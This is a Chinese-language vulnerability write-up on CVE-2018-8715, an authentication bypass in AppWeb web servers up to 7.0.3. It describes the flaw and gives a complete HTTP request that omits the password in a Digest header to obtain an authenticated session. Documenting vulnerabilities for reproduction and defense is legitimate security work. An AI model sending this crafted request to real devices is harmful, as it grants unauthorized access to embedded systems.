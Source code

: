 （CVE-2018-8715）AppWeb认证绕过漏洞
===================================

一、漏洞简介
------------

AppWeb是Embedthis Software
LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web
Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web
Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

-   basic 传统HTTP基础认证

-   digest
    改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头

-   form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为`null`（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

二、漏洞影响
------------

AppWeb \<=7.0.3

三、复现过程
------------

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为`admin`。

构造头`Authorization: Digest username=admin`，并发送如下数据包：

    GET / HTTP/1.1
    Host: example.com
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Authorization: Digest username=admin

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-8715)AppWeb认证绕过漏洞/media/rId24.png)

设置这个session到浏览器，即可正常访问需要认证的页面：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-8715)AppWeb认证绕过漏洞/media/rId25.png)

参考链接
--------

> https://vulhub.org/\#/environments/appweb/CVE-2018-8715/
